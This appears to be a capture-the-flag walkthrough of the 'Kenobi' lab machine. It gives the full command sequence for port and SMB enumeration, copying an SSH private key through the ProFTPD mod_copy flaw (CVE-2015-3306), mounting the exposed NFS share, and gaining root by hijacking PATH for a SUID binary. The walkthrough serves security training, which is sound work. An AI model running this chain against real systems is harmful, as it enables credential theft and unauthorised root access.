






# Kenobi

### Active information gathering

```bash
kali@attack> echo '10.10.198.245 kenobi.thm' | sudo tee -a /etc/hosts
kali@attack> nmap -p- -T4 -oN nmap-all-ports kenobi.thm
kali@attack> ports="$(cat nmap-all-ports|grep ^[0-9]|cut -d'/' -f1|tr '\n' ','|sed 's/,$//')"
kali@attack> map -sV -p $ports -oN nmap-services kenobi.thm
kali@attack> nmap -p 445 --script smb-enum-shares -oN nmap-smb-enum-shares kenobi.thm
kali@attack> nmap -p 445 --script smb-enum-users -oN nmap-smb-enum-users kenobi.thm
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### SMB

The SMB service has 3 shares : `IPC$` `anonymous` `print$`. We can also see the path to the share is `c:\home\kenobi\share` thus it exists a user named **kenobi**.

```bash
kali@attack> smbclient //kenobi.thm/anonymous
# first method
smb> get log.txt
smb> exit
# second method
kali@attack> smbget -Rn smb://kenobi.thm/anonymous
```

### Exploitation

#### FTP

The FTP service is vulnerable to the `CVE-2015-3306` and allows to copy file with an unauthenticated user by using Netcat. I copy the `id_rsa` file into `/var/tmp` folder because I know the mounting file system points to `/var`.

```bash
kali@attack> nc kenobi.thm 21

> site help
> site cpfr /home/kenobi/.ssh/id_rsa
> site cpto /var/tmp/id_rsa
```

<figure><figcaption></figcaption></figure>

#### NFS

```bash
kali@attack> nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount kenobi.thm -oN nmap-nfs
```

<figure><figcaption></figcaption></figure>

It's possible to mount this file system from remote into local.

```bash
kali@attack> mkdir /mnt/kenobi
kali@attack> sudo mount kenobi.thm:/var /mnt/kenobi
kali@attack> cp /mnt/kenobi/tmp/id_rsa .
kali@attack> chmod 400 id_rsa
kali@attack> ssh kenobi@kenobi.thm -i id_rsa

kenobi@target> cat /home/kenobi/user.txt
```

And you gain a reverse shell thanks to rsa private key ! :smile:

### Post-exploitation

Now find all files with a SUID.

```bash
kenobi@target> find / -perm -u=s -type f 2>/dev/null
```

<figure><figcaption></figcaption></figure>

The file `/usr/bin/menu` can be executed as root. Let's have a look of its content with `strings`.

```bash
kenobi@target> strings /usr/bin/menu
```

<figure><figcaption></figcaption></figure>

We can see the file uses bash commands with no absolute path.

```bash
kenobi@target> cd /tmp
kenobi@target> echo '/bin/bash' > curl
kenobi@target> chmod 777 curl
kenobi@target> export PATH=/tmp:$PATH
kenobi@target> /usr/bin/menu
# select option
root@target> cat /root/root.txt
```

And you gain root shell ! :gift:
